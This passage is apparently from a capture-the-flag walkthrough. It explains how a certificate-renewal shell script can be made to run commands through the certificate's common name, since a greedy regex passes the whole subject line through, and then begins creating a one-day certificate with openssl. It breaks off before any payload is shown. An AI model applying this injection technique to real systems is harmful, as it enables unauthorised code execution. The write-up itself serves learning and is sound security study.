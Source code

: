 ### Command Injection

#### Strategy

The very last line above is the important one. There is a command injection vulnerability in that line if I can control `$commonName`. Working backwards, `$commonName` is set here:

```

commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

```

This is printing whatever `$commonName` was set as, starting from the sixth character, and then printing up to the first `,`.

Before that, `$commonName` is set based on `$subject`:

```

commonName=$(echo $subject | grep -Eo 'CN = .*,?')

```

I believe the author is trying to get from `CN =` up through the next comma or the end of the line, but the way this regex is written, because `.*` is greedy, it will just always take through the end of the line. For example:

```

bill@broscience:~$ echo "this is a test, more stuff" | grep -Eo '.*,?'
this is a test, more stuff

```

`$subject` comes from an `openssl` command output reading the certificate:

```

subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

```

Effectively, if I can put a command injection payload into a certificate, and have it expire in less than one day, this script will execute it.

#### Execute

ChatGPT will quickly give me the `openssl` syntax to make a certificate. I’ll modify it slightly to meet my needs:

```

bill@broscience:~$ openssl req -x509 -nodes -newkey rsa:2048 -keyout /dev/null -out Certs/broscience.crt -days 1
Generating a RSA private key
......................................................+++++
......................+++++
writing new private key to '/dev/null'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
```